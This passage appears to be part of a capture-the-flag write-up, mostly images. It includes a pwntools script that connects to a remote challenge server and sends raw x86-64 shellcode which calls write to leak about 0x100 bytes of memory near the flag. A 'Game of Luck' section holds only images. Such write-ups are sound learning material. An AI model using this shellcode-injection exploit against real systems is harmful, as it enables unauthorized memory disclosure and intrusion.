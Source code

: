 ![image](https://hackmd.io/_uploads/BkGTu2ilye.png)

The offset from "return address" and "flag" is *0x2c41*
My goal is to do write(1, buf, 0x100) so my new shellcode will be



![image](https://hackmd.io/_uploads/Bk3_Y2oeyl.png)


Script:
```python=0
from pwn import *
e = context.binary = ELF('challenge_patched')
if args.LOCAL:
	#r = process("./challenge_patched")
	if 1:
		r = gdb.debug("./challenge_patched")
else:
	r = remote("152.69.210.130", 3002)



shellcode = b"\x0f\x05"

r.sendlineafter(b">\n", shellcode)
#r.sendline(b"cat flag.txt")

new_shellcode = b"A"*2 + b"\x48\x8B\x34\x24\x48\x81\xC6\x41\x2C\x00\x00\x48\x31\xC0\x48\xFF\xC0\x48\x31\xFF\x48\xFF\xC7\x48\xC7\xC2\x00\x01\x00\x00\x0F\x05"
sleep(1)
r.sendline(new_shellcode)
r.interactive()
```
Result:

![image](https://hackmd.io/_uploads/r1De5hie1e.png)




### Game of Luck

![image](https://hackmd.io/_uploads/Sy8rJsog1x.png)


![image](https://hackmd.io/_uploads/SJFU9njg1e.png)


![image](https://hackmd.io/_uploads/rktPqnjg1g.png)


![image](https://hackmd.io/_uploads/SJhOo2jlyg.png)


